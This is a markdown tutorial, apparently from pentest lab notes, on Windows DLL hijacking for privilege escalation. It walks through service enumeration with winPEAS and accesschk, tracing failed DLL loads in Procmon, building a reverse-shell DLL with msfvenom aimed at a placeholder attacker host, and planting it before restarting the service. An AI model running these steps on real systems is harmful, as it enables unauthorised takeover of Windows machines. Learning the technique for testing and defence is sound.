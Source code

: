 ### **INTRODUCTION**

DLL Hijacking is a cyberattack that leverages the way Windows applications search and load Dynamic Link Libraries (DLLs). By exploiting how applications load DLLs, attacker can gain elevated privileges or execute arbitrary code.

### **HOW DLL HIJACKING WORKS**

1.  Services in Windows load DLLs with the same privileges as the service. If attacker control the DLL, they can execute code with the service's privileges.
2.  Absolute Path Vulnerability: When a service loads a DLL from a writable path, attacker can replace it with a malicious one, causing privilege escalation.
3.  If an application can't find a required DLL, attacker can place a malicious DLL in a directory searched by Windows, leading to privilege escalation.
4.  Windows searches for DLLs in a specific order. Attacker exploit this by placing a malicious DLL in a location searched before the legitimate one.

### **STEPS TO IDENTIFY AND EXPLOIT INSECURE SERVICE EXECUTABLES**

1.  Use winPEAS to list non-Microsoft services:  
    `.\winPEASx64.exe quiet servicesinfo`
    
	![](../../../img/Windows-Environment/127.png)
    
2.  Verify writable directories in the system PATH:  
    `sc qc dllsvc`
    
3.  Check the service access permissions:  
    `.\accesschk.exe /accepteula -uvqc user dllsvc`
    
4.  Set filters to monitor the specific service executable with Procmon:  
    `Procmon64.exe`
    
5.  Filter out registry and network activities to pinpoint DLL-related errors.
    
6.  Monitor failed attempts to load the DLL, often defaulting to writable directories like:  
    `C:\Temp`
    
7.  Use Metasploit to create a malicious DLL:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP_ADRESS] LPORT=[PORT_NUMBER] -f dll -o hijackme.dll`
    
8.  Place the malicious DLL in the target directory:  
    `move hijackme.dll C:\Temp`
    
9.  Restart the service to load the malicious DLL:  
    `net stop dllsvc`  
    `net start dllsvc`